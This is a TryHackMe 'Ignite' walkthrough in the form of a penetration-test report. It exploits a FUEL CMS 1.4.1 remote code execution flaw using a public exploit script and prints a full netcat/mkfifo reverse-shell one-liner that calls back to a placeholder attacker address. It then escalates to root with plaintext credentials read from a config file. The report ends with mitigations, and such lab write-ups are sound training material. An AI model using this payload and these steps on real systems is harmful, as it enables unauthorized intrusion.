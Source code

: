 # 🟩Ignite – Try Hack Me (THM) Walkthrough Report  

**Prepared by:** Nishanth Antony  
**Date:** September 1, 2025  
**Difficulty:** Easy  
**Category:** Web Exploitation / Privilege Escalation  
**Platform:** TryHackMe (THM)  

-----

## **1. Executive Summary**

This report outlines the steps taken to compromise the `Ignite` machine. The assessment successfully identified and exploited a known **Remote Code Execution (RCE)** vulnerability in the **FUEL CMS** platform. Initial access was gained as the `www-data` user, and privilege escalation to the `root` user was achieved by leveraging credentials found in a database configuration file. The full system compromise highlights critical misconfigurations related to vulnerable software and insecure credential management.

-----

## **2. Methodology**

The assessment followed a methodical approach to penetration testing:

1.  **Reconnaissance:** Enumeration of open ports, services, and web server information.
2.  **Initial Foothold:** Exploitation of a known vulnerability to gain a low-privileged shell.
3.  **Privilege Escalation:** Post-exploitation enumeration to find a path to the `root` user.
4.  **Reporting:** Documentation of all findings, including the commands used and their outputs.

-----

## **3. Findings and Exploitation**

### **3.1 Reconnaissance: Identifying Vulnerable Software**

The initial step was to perform a network scan to identify the running services and their versions.

**Command & Output:**

```bash
# Nmap 7.80 scan initiated Sun Jun 14 20:38:52 2020 as: nmap -sC -sV -T4 -A -oN ignite.nmap <target_ip>
...
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
...
|_http-title: Welcome to FUEL CMS
```

**Findings:** The Nmap scan revealed that port 80 was running a web server hosting **FUEL CMS**. The `robots.txt` file also provided a key piece of information, indicating the `/fuel/` directory.

### **3.2 Initial Access: Remote Code Execution (RCE)**

A search for known vulnerabilities for "FUEL CMS" using `searchsploit` immediately returned a result for a **Remote Code Execution (RCE)** vulnerability.

**Commands & Outputs:**

```bash
┌──(Nishanth㉿LAPTOP-4CC2EUBM)-[~]
╰─$ searchsploit fuel cms
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                      |  Path
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
fuelCMS 1.4.1 - Remote Code Execution                                                                                               | linux/webapps/47138.py
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
...
┌──(Nishanth㉿LAPTOP-4CC2EUBM)-[~]
╰─$ searchsploit -m linux/webapps/47138.py
...
Copied to: /twseptian/47138.py
```

The Python exploit script `47138.py` was downloaded. I used this script in conjunction with `Burp Suite` to inject a reverse shell payload.

**Commands & Outputs:**

  * **Netcat Listener:**

    ```bash
    ┌──(Nishanth㉿LAPTOP-4CC2EUBM)-[~]
    ╰─$ nc -lvnp 4444
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::4444
    Ncat: Listening on 0.0.0.0:4444
    ```

  * **RCE Exploit Payload:** I used the following reverse shell command as the payload for the Python script:

    ```
    rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc <your_ip_address> 4444 >/tmp/f
    ```

  * **Reverse Shell Connection:**

    ```
    Ncat: Connection from <target_ip>.
    Ncat: Connection from <target_ip>:47538.
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    $ whoami
    www-data
    ```

**Result:** A low-privileged shell was obtained as the **`www-data`** user.

### **3.3 Privilege Escalation to `root`**

From the `www-data` shell, I began enumerating the file system to find a way to escalate privileges. The first goal was to find the user flag, which was located in `/home/www-data/flag.txt`.

**Commands & Outputs:**

```bash
www-data@ubuntu:/var/www/html$ cd /home/www-data
www-data@ubuntu:/home/www-data$ ls -la
...
-rw-r--r-- 1 root     root       34 Jul 26  2019 flag.txt
www-data@ubuntu:/home/www-data$ cat flag.txt
<redacted_flag>
```

To escalate to `root`, I investigated the web application's configuration files. I found a database configuration file, `database.php`, in the `fuel/application/config/` directory.

**Commands & Outputs:**

```bash
www-data@ubuntu:/var/www/html$ cat fuel/application/config/database.php
...
$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'mememe',
        'database' => 'fuel_schema',
...
```

**Vulnerability:** The database configuration file contained plaintext credentials for the `root` user on the local system. This is a severe security misconfiguration.

**Exploitation:** The credentials `root:mememe` were used with the `su` command to switch to the `root` user.

**Commands & Outputs:**

```bash
www-data@ubuntu:/var/www/html$ su - root
su - root
Password: mememe
root@ubuntu:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:~# whoami
whoami
root
root@ubuntu:~# cd /root
root@ubuntu:~# ls -l
total 4
-rw-r--r-- 1 root root 34 Jul 26  2019 root.txt
root@ubuntu:~# cat root.txt
<redacted_flag>
```

**Result:** Full system compromise was achieved by leveraging the leaked `root` credentials.

-----

## **4. Mitigation Recommendations**

  * **Vulnerability Management:** The web server is running a version of **FUEL CMS (1.4.1)** that is known to be vulnerable to **RCE (CVE-2018-16763)**. The application should be immediately updated to a secure, patched version.
  * **Secure Credential Storage:** **Sensitive credentials, especially for the `root` user, should never be stored in plaintext within a web application's configuration files.** The database should use a separate, non-privileged user account.
  * **Principle of Least Privilege:** The web server process (`www-data`) should not have permissions to read files in the `/home/` directory or other sensitive locations. Permissions should be restricted to only what is necessary.
  * **Filesystem Security:** The `www-data` user's home directory should not be accessible to the `root` user in a way that allows a user to access flags, or any files with sensitive data.
